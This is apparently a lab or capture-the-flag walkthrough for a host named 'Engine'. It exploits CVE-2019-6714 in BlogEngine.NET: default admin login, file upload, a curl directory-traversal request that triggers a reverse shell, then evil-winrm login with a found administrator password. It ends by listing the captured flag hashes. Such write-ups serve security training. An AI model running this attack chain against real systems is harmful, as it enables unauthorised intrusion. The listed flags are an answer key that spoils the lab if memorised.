



# Engine

**IP Address:** 172.31.1.16

## Enumeration
### Open Ports

## Exploitation
### Exploit Details (SearchSploit)
* **Name** - BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution 
* **CVE** - 2019-6714
* **Module** - aspx/webapps/46353.cs
* **Disclosed** - 2019-02-12 
* **References**
  * https://www.exploit-db.com/exploits/46353
  * https://nvd.nist.gov/vuln/detail/CVE-2019-6714

1. Login to the blog with default credentials admin / admin. Then navigate to the content menu and select a post to enter edit mode. Then click on the file button. 



2. Upload the code from the exploit after subsituting the correct IP Address / port values. 



3. Initiate the reverse shell. 

Commands
```
curl 'http://172.31.1.16/blog//?theme=../../App_Data/files'
```


4. Catch the reverse shell. 

Commands
```
whoami
```



## Privilege Escalation
### Exploit Details (Found Credentials)
* **Name** - Found Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

winPEAS shows some saved credentials for the administator account.  

Commands
```bash
evil-winrm -i $ip -u administrator -p PzCEKhvj6gQMk7kA
whoami
type C:\Users\alex\Desktop\access.txt
type ..\Desktop\system.txt
```


## Loot
```
access.txt
150688cfd5d47037eda7a9bb589c8743
system.txt
d345d4ac0d810fcfb63b8be2b7e3bb71
```